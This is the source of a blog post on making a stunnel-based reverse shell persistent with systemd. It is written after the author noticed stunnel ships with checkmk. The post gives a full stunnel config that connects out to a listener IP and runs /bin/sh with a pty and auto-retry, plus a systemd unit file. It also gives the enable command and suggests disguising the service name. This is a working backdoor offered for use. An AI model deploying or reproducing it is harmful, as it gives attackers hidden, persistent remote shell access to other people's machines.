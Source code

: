 ```yaml
---
layout: post
title: "Persistent Backdoors with Stunnel"
---
```


After reading [this advisory][checkmk-adv] from SonarSource about a remote code execution chain in checkmk, I was looking at checkmk for useful utilities, and noticed it ships with [stunnel][stunnel].

Previously, using stunnel for a reverse shell that automatically reconnects and gives a full TTY was documented [here][stunnel-rev]. I figured I'd spend a few minutes making this backdoor persistent using systemd.

Anyway, its pretty simple. The following snippets will show you the way.

First, you need to create a stunnel config file and put it somewhere on disk. I put mine in `/etc/stun.conf`.  
Obviously, replace the "connect" line with your listeners host/port. For listener setup, use socat and openssl as per the [other blog post][stunnel-rev].

{% highlight bash %}
output=/dev/null
pid=/tmp/.stun.pid
[service]
client=yes
connect=192.168.0.159:4443
verifyPeer = no
exec=/bin/sh
pty=yes
retry=yes
{% endhighlight %}

Next, you need your systemd service file. I put mine in `/lib/systemd/system/tunnel.service`, but you can name yours whatever.

{% highlight bash %}
[Unit]
Description=Tunnel Service

[Service]
Type=forking
ExecStop=/usr/bin/killall -9 stunnel
ExecStart=/usr/bin/stunnel /etc/stun.conf
{% endhighlight %}

Once you have these files installed, just enable the service with `systemctl enable tunnel`. Obviously, you may have to change the name if you disguised your service as something else.

[checkmk-adv]: https://blog.sonarsource.com/checkmk-rce-chain-1/
[stunnel]: https://www.stunnel.org/
[stunnel-rev]: https://darrenmartyn.ie/2020/09/01/reverse-ssl-shells-with-stunnel/
